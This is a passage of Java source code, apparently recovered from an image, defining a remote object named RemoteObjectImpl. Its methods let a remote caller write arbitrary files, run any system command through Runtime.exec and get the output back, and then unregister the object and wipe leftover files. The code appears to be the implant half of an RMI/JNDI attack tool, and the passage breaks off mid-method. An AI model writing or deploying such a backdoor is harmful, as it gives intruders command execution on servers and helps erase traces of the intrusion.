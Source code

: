 ```
public class RemoteObjectImpl implements RemoteObject {

    /**
     * 分块上传文件
     */
    public boolean upload(String uploadPath, byte[] data, boolean append) {
        FileOutputStream out = null;
        try {
            out = new FileOutputStream(uploadPath, append);
            out.write(data);
            return true;
        } catch (Exception e) {
            e.printStackTrace();
            return false;
        } finally {
            try {
                out.close();
            } catch (Exception e) {
                e.printStackTrace();
                return false;
            }
        }
    }

    /**
     * 执行命令
     */
    public String exec(String cmd) {
        try {
            Process proc = Runtime.getRuntime().exec(cmd);
            BufferedReader br = new BufferedReader(new InputStreamReader(
                    proc.getInputStream()));
            StringBuffer sb = new StringBuffer();
            String line;
            String result;
            while ((line = br.readLine()) != null) {
                sb.append(line).append("\n");
            }
            result = sb.toString();
            if ("".equals(result)) {
                return "error";
            } else {
                return result;
            }
        } catch (Exception e) {
            e.printStackTrace();
            return "error";
        }
    }

    /**
     * 反注册远程类并清除残留文件
     */
    public void unbind(String path) {
        try {
            Context ctx = new InitialContext();
            ctx.unbind("RemoteObject");
        } catch (Exception e) {
            e.printStackTrace();
        }
        FileOutputStream out = null;
        File file = null;
        try {
```